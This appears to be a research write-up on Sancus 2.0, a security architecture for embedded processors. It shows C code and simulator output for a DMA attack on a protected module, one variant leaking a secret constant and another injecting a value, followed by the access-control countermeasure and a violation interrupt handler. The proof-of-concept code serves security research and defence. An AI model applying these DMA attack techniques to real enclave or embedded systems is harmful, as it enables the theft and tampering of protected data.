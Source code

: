 #Exploitation of Naive DMA Support
A simple example of how security guarantees are invalidated when DMA support is naively implemented on Sancus 2.0. If no memory access control is enforced on the DMA bus, it can access to the whole system memory, including protected sections. An attacker can exploit this vulnerability to leak secret data or inject malicious code into the module. \\ \autoref{lst:hello_sm} shows a simple Sancus software module \textit{"Hello"}: the macros \texttt{SM\_ENTRY(name)}, \texttt{SM\_FUNC(name)} and \texttt{SM\_DATA(name)} are respectively used to annotate modules entry points, functions or data. In brief, they take as input the name of the intended module, and attach some attributes\footnote{The attribute mechanism allows a developer to attach extra information (metadata) to language entities with a generalized syntax, instead of introducing new syntactic constructs or keywords for each feature. This information is intended to be used by the compiler, improving the quality of diagnostics produced by an implementation or specifying platform-specific behaviour~\cite{c_attributes}.} to the entity they are associated with (data, function or entry point), so that the Sancus compiler can include those in the module protected sections. \texttt{DECLARE\_SM(name, vendor\_id)}, instead, is used to declare a Sancus module. 

```
/* ======== HELLO WORLD SM ======== */
DECLARE_SM(hello, 0x1234);
#define HELLO_SECRET_CST    0xC1A0

int       SM_DATA(hello) *hello_secret;
int const SM_DATA(hello)  hello_const = HELLO_SECRET_CST;

void SM_FUNC(hello) hello_init(void)
{
    /* Confidential loading guarantees secrecy of constant in text section. */  
    hello_secret = (int*)(hello.data_section_start+OFFSET);
    *hello_secret = hello_const;
    ASSERT(*hello_secret == HELLO_SECRET_CST);
}

void SM_ENTRY(hello) hello_greet(void)
{
    hello_init();
    pr_info2("Hi from SM with ID %d, called by %d\n", sancus_get_self_id(), sancus_get_caller_id());
    pr_info2("Internally accessing to my secret: %.4x at addr.: 0x%.4x \n",*hello_secret, hello_secret);	
}

void SM_ENTRY(hello) hello_disable(void)
{
    sancus_disable(exit_success);
}
```



##Leak Secret Data
In the example provided the value of a secret constant is stored in the data section, at a known offset, for the sake of simplicity: in this way the DMA attack is carried in one shot. Though in a real-case scenario it's unlikely for the attacker to know the exactly location of the secret data, it is reasonable to assume that some analysis are carried on over the module to be broken, thus the example it's still valid. Finally, it is to be noticed that the values of start and end addresses of SMs text and data sections can be read from unprotected code.\\

```
int main()
{
    uint16_t start_dma;
    uint16_t disclosed_secret;
	
    msp430_io_init();
    sancus_enable(&hello); //Enable memory protection
	
    hello_greet(); //Module's function, automatically accessed from the unprotected code through the entry point

	
	/* ============== USING DMA ================ */
    start_dma = (uint16_t)(hello.data_section_start+OFFSET);
    pr_info("DMA illegal access to the secret data from unprotected code \n"); 

    //void dma_read (start_addr, num_of_words, *save_data)    
    dma_read(start_dma, 1, &disclosed_secret);
    pr_info2("Hello secret is: 0x%.4x at address: 0x%.4x \n", disclosed_secret, start_dma);
	/* ========================================= */
}
```

```
New SM config: 7130 7304 029c 03a6, 1
Vendor key: 4078d505d82099ba
...................................................................
SM key: b0c4cc0fb9ce3806
SM hello with ID 1 enabled	: 0x7130 0x7304 0x029c 0x03a6
[main.c] Hi from SM with ID 1, called by 0
[main.c] Internally accessing to my secret: 0xC1A0 at address: 0x02a3 
[main.c] DMA illegal access to "Hello" secret from unprotected code 

[main.c] Hello secret is: 0xC1A0 at address: 0x02a3 
SM disabled
[main.c] SM disabled; all done!
 ===============================================
|               SIMULATION PASSED               |
 ===============================================
```

After entering the main function, the memory protection for the "Hello" module is enabled. Then, the **hello_greet() is called, which initialises the secret data and sends a greeting to the reader. \\ The execution continues by configuring a DMA read operation from the main.c. The DMA read function inputs are: (1) the starting address, which is set with the start of data section shifted of the know offset, so that it directly points to the desired secret data; (2) the number of words to be read, set equal to one in this case; (3) the address of an unprotected memory location to where store the read data. Once the DMA operation has completed, the secret value \textsl{0xC1A0} is leaked and stored and printed from code in the unprotected memory. The output produced by the main.c is shown in (\autoref{lst:prints_on_terminal}). \\
As a final remark, \autoref{lst:prints_on_terminal_PROTECTION} shows what happens when the same code from \autoref{lst:hello_sm} and \autoref{lst:main_attack} is run on Sancus with memory access control enforced over DMA accesses: a violation is internally raised and the content of the secret data is not leaked. An interrupt request can be set so that more specific countermeasure can be taken when a DMA violation is detected; an example of DMA ISR is provided in \autoref{lst:DMA_ISR}.\\

```
New SM config: 7130 7304 029c 03a6, 1
Vendor key: 4078d505d82099ba
...................................................................
SM key: b0c4cc0fb9ce3806
SM hello with ID 1 enabled	: 0x7130 0x7304 0x029c 0x03a6
[main.c] Hi from SM with ID 1, called by 0
[main.c] Internally accessing to my secret: 0xC1A0 at address: 0x02a3 
[main.c] DMA illegal access to "Hello" secret from unprotected code 

[main.c] Hello secret is: 0x0000 at address: 0x02a3 
SM disabled
[main.c] SM disabled; all done!
 ===============================================
|               SIMULATION PASSED               |
 ===============================================
```
```
__attribute__((interrupt(DMA_IRQ))) 
void dma_violation_isr(void)
{
    puts("\t--> DMA VIOLATION IRQ; exiting...\n");
    EXIT();
    
    pr_info("should never reach here..");
    while(1);
}
```

##Inject Malicious Data or Code
Another possible attack implies the injection of malicious code or data into SMs protected sections. The SM considered is still the \textit{"Hello"} module from the previous example (\autoref{lst:hello_sm}). The only difference is that the SM \texttt{hello\_init()} function is now explicitly called only once right after the protection mechanism has been enabled, and not every time the \texttt{hello\_greet()} is entered. To this extent, its attribute is modified from SM\_FUNC to SM\_ENTRY. This is necessary, in order to prevent that the injected malicious message is simply overwritten before being printed by the greeting function. \autoref{lst:main_attack_write} shows the main.c, as framework for the attack.

```
int main()
{
    uint16_t start_dma;
	uint16_t data_to_send;
	
    msp430_io_init();
    sancus_enable(&hello); //Enable memory protection
	
    hello_init();  //Now defined as: void SM_ENTRY(hello) hello_init(void)
    hello_greet(); //Module's function, automatically accessed from the unprotected code through the entry point
	/* ============== USING DMA ================ */
    start_dma = (uint16_t)(hello.data_section_start+OFFSET);
    data_to_send = 0xBEEF;
	puts("DMA injecting external data into SM data section \n"); 
	
	//void dma_write(start_addr, num_of_words, *data_to_send);
	dma_write(start_dma, 1, &data_to_send);
	/* ========================================= */
	
	hello_greet(); 
}
```
After the greeting message has printed, to show that initialization has correctly occurred, the real attack can starts, by configuring the DMA write function. It takes three inputs: (1) a starting address pointing to the initial memory location where the external data are going to be written; (2) the number of words involved in the operation; (3) the first memory location where data resides. As for the previous example, the writing address is still set to a known offset in the data section. Then, the malicious greeting message \texttt{0xBEEF} is injected and the execution of the main function proceeds by calling the SM \texttt{hello\_greet()} again, to show that a tempering occurred (\autoref{lst:prints_on_terminal_write}). \\

\smallskip

```
New SM config: 7124 72ea 029c 03a6, 1
Vendor key: 4078d505d82099ba
...................................................................
SM key: ed151c6be5efda74
SM hello with ID 1 enabled	: 0x7124 0x72ea 0x029c 0x03a6
[main.c] Hi from SM with ID 1, called by 0
[main.c] Internally accessing to my secret: 0xC1A0 at address: 0x02a3 
[main.c] DMA injecting external data into SM data section 

[main.c] Hi from SM with ID 1, called by 0
[Hello.c] Internally accessing to my secret: 0xBEEF at address: 0x02a3 
SM disabled
[main.c] SM disabled; all done!
 ===============================================
|               SIMULATION PASSED               |
 ===============================================
```
